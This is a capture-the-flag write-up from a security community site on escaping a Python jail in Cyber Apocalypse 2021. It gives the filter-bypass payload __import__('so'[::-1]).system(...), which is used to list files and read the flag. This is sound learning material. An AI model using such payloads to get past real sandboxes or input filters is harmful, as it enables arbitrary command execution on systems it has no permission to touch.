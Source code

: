 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2021 | Input as a service Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2021
parent: cyber_apocalypse_2021
category: misc
challenge: Input as a service
tags: "misc, ava, python, jail, escape"
date: 2021-04-24T00:00:00+00:00
last_modified_at: 2021-04-24T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2021</h1>

## Input as a service

> Solved by : ava

* We are given a py-jail 
* https://programmer.help/blogs/python-sandbox-escape.html 
* I used this website as reference, `os` and such imports are banned, so we used string manipulation
* we just reverse the string `os` to `so` and import it and then do `ls` command to * * see the `flag.txt` and then just `cat` the flag
* the code to do is given below

```bash

__import__('so'[::-1]).system('ls')


flag.txt
input_as_a_service.py


__import__('so'[::-1]).system('cat flag.txt')

CHTB{4li3n5_us3_pyth0n2.X?!}
```

